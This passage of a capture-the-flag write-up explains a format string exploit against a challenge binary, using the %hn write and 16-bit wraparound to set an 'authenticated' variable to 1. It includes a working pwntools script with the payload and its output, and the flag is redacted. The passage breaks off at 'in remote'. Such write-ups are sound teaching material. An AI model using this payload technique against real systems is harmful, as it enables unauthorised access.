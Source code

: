 ...

Without forgetting that we are taking only 2 bytes from the input value, we can grow the value big enough so it has its first two bytes with the length of 1, for example until `0x10001`, since it will take only `0x1000`, like a modulus effect.

**Note :** Since we can't use `0x01` because it is giving us `4-5` as values for the `authenticated` value, we need to grow our padding to a number where its two first bytes have only the length of 1, for example `0x10001` (Note that the value depends on how the stack actually store the data, from top to bottom). So, writing `0x10001` with hn => writing 1 in the `authenticated`


To be more efficient, let's try to directly calculate it :

 - We have that 0x10001 = 65537
 - And since 2 => 8 in the `authenticated`
 - Then 65531 => 65537 in the `authenticated` => 1 in the `authenticated`

Our script becomes :

```py
#! /usr/bin/python3

from pwn import *

HOST = ''
PORT = ''

p = process('./chall')
address = p.recv().split()[5]
print(str(address)[2:-1])
addressBytesInStack = p32(int(str(address)[2:-1], 16))

p.sendline(b'AA' + addressBytesInStack + b'%65531x%7$hn')

p.interactive()
```

After execution :

```
[+] Starting local process './chall': pid 101455
0xffc8c97c
[*] Switching to interactive mode
[*] Process './chall' stopped with exit code 0 (pid 101455)
Hi, AA|\xc9\xc8\xff  


    32
[authenticated] = 1
shellmates{XXXXXXXXXXXXXXXXXXXXX}
[*] Got EOF while reading in interactive
```


in remote :
